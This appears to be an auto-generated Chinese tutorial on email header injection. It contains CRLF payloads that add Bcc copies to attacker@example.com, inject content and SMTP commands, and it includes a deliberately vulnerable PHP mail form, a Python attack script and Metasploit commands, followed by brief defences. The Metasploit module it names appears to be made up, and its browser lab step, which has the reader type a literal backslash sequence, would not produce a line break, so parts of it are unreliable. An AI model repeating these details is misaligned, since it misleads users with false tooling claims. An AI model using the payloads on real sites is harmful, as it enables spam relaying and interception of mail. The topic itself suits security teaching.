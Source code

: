 # 邮件头注入攻击的攻击技术

## 1. 技术原理解析

邮件头注入攻击（Email Header Injection）是一种利用Web应用程序中的漏洞，通过注入恶意邮件头信息来控制邮件发送行为的攻击方式。攻击者通常通过在用户输入中插入换行符（`\r\n`）来注入额外的邮件头字段，从而篡改邮件内容或发送恶意邮件。

### 1.1 底层实现机制

邮件头注入攻击的核心在于邮件头的格式和邮件传输协议（SMTP）的处理方式。邮件头由多个字段组成，每个字段以`字段名: 字段值`的形式存在，字段之间通过换行符（`\r\n`）分隔。攻击者通过在用户输入中插入`\r\n`，可以插入新的邮件头字段或修改现有字段。

例如，一个正常的邮件头可能如下：

```
From: user@example.com
To: recipient@example.com
Subject: Hello
```

攻击者可以通过注入`\r\n`来插入新的字段，如：

```
From: user@example.com
To: recipient@example.com
Subject: Hello
Bcc: attacker@example.com
```

### 1.2 攻击条件

邮件头注入攻击通常发生在以下场景：

1. **用户输入未正确过滤**：应用程序未对用户输入进行严格的过滤和验证，允许插入换行符。
2. **邮件头字段动态生成**：应用程序根据用户输入动态生成邮件头字段，如`From`、`To`、`Subject`等。

## 2. 常见攻击手法和变种

### 2.1 基本注入

攻击者通过在用户输入中插入`\r\n`来注入新的邮件头字段。例如，在`Subject`字段中注入`Bcc`字段：

```
Subject: Hello\r\nBcc: attacker@example.com
```

### 2.2 多收件人注入

攻击者可以通过注入多个`To`或`Cc`字段来将邮件发送给多个收件人：

```
To: recipient1@example.com\r\nTo: recipient2@example.com
```

### 2.3 邮件内容注入

攻击者可以通过注入`Content-Type`或`Content-Disposition`字段来修改邮件内容或附件：

```
Subject: Hello\r\nContent-Type: text/html\r\n\r\n<html><body>Malicious content</body></html>
```

### 2.4 SMTP命令注入

在某些情况下，攻击者可以通过注入SMTP命令来直接控制邮件传输过程。例如，注入`DATA`命令来直接发送邮件内容：

```
To: recipient@example.com\r\nDATA\r\nSubject: Hello\r\n\r\nMalicious content\r\n.\r\n
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

为了模拟邮件头注入攻击，可以搭建一个简单的Web应用程序，使用PHP的`mail()`函数发送邮件。

1. **安装Web服务器**：使用Apache或Nginx作为Web服务器。
2. **安装PHP**：确保PHP已安装并配置正确。
3. **创建测试页面**：创建一个简单的PHP页面，用于发送邮件。

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $to = $_POST['to'];
    $subject = $_POST['subject'];
    $message = $_POST['message'];
    $headers = "From: user@example.com\r\n";

    if (mail($to, $subject, $message, $headers)) {
        echo "Mail sent successfully.";
    } else {
        echo "Mail sending failed.";
    }
}
?>
<form method="post">
    To: <input type="text" name="to"><br>
    Subject: <input type="text" name="subject"><br>
    Message: <textarea name="message"></textarea><br>
    <input type="submit" value="Send">
</form>
```

### 3.2 攻击步骤

1. **访问测试页面**：打开浏览器，访问刚刚创建的PHP页面。
2. **注入恶意输入**：在`Subject`字段中输入以下内容：

```
Hello\r\nBcc: attacker@example.com
```

3. **发送邮件**：点击“Send”按钮，观察邮件是否被发送给`attacker@example.com`。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行测试

Burp Suite是一款常用的Web应用程序安全测试工具，可以用于测试邮件头注入漏洞。

1. **配置Burp Suite**：启动Burp Suite，配置浏览器代理。
2. **拦截请求**：在Burp Suite中拦截发送邮件的请求。
3. **修改请求**：在请求体中修改`Subject`字段，插入恶意内容：

```
Subject: Hello\r\nBcc: attacker@example.com
```

4. **发送请求**：将修改后的请求发送给服务器，观察邮件是否被发送给`attacker@example.com`。

### 4.2 使用Python脚本进行测试

可以使用Python编写脚本来自动化测试邮件头注入漏洞。

```python
import requests

url = "http://example.com/send_mail.php"
data = {
    "to": "recipient@example.com",
    "subject": "Hello\r\nBcc: attacker@example.com",
    "message": "This is a test message."
}

response = requests.post(url, data=data)
print(response.text)
```

### 4.3 使用Metasploit进行测试

Metasploit是一款强大的渗透测试框架，可以用于测试邮件头注入漏洞。

1. **启动Metasploit**：启动Metasploit控制台。
2. **选择模块**：使用`auxiliary/scanner/http/email_header_injection`模块。
3. **配置参数**：设置目标URL、注入点等参数。
4. **运行模块**：执行模块，观察测试结果。

```bash
msf6 > use auxiliary/scanner/http/email_header_injection
msf6 auxiliary(scanner/http/email_header_injection) > set RHOSTS example.com
msf6 auxiliary(scanner/http/email_header_injection) > set RPATH /send_mail.php
msf6 auxiliary(scanner/http/email_header_injection) > run
```

## 5. 防御措施

为了防止邮件头注入攻击，可以采取以下措施：

1. **输入过滤**：对用户输入进行严格的过滤，禁止插入换行符。
2. **使用安全的邮件库**：使用安全的邮件库，如PHPMailer，避免直接使用`mail()`函数。
3. **编码输出**：对输出进行编码，防止恶意内容被解释为邮件头字段。
4. **日志监控**：监控邮件发送日志，及时发现异常行为。

## 结论

邮件头注入攻击是一种常见的Web安全漏洞，攻击者通过注入恶意邮件头字段来控制邮件发送行为。通过理解其底层机制、掌握常见攻击手法和利用技巧，并采取有效的防御措施，可以有效防止此类攻击的发生。

---

*文档生成时间: 2025-03-11 13:52:29*
